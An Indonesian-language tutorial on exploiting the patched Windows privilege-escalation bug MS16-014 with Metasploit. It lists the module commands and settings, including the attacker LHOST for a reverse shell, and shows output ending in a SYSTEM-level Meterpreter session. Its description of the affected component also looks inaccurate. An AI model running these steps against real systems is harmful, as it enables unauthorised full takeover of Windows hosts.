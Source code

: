 # MS16-014

## A. Apa itu MS16-014?

[MS16-014](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014) adalah kerentanan Local Privilege Escalation (LPE) pada Windows Kernel, khususnya terkait dengan manajemen Windows Task Scheduler dan komponen internal `win32k.sys`.

Kerentanan ini memungkinkan pengguna lokal dengan hak terbatas untuk menjalankan kode arbitrer di level kernel, dan mendapatkan hak akses `SYSTEM`. Ini dilakukan dengan cara mengeksploitasi kesalahan dalam validasi objek kernel dan manipulasi struktur internal.

## B. Detail Teknis:
- CVE ID: `CVE-2016-0040`
- Buletin Microsoft: `MS16-014`
- Tanggal Rilis: `9 Februari 2016`
- Tipe: Local Privilege Escalation (LPE)
- Komponen: `win32k.sys`
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS16-014`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Modul Exploit MS16-014:

   ```
   msf6 > use exploit/windows/local/ms16_014_wmi_recv_notif
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] OS Version: Windows 7 Service Pack 1
   [*] Reflectively injecting the exploit DLL and running it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1276 launched.
   [*] Reflectively injecting the DLL into 1276...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 20 opened (192.168.1.42:4444 -> 192.168.1.50:49179) at 2025-05-14 17:34:54 +0700

   meterpreter > 
   ```
   
   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
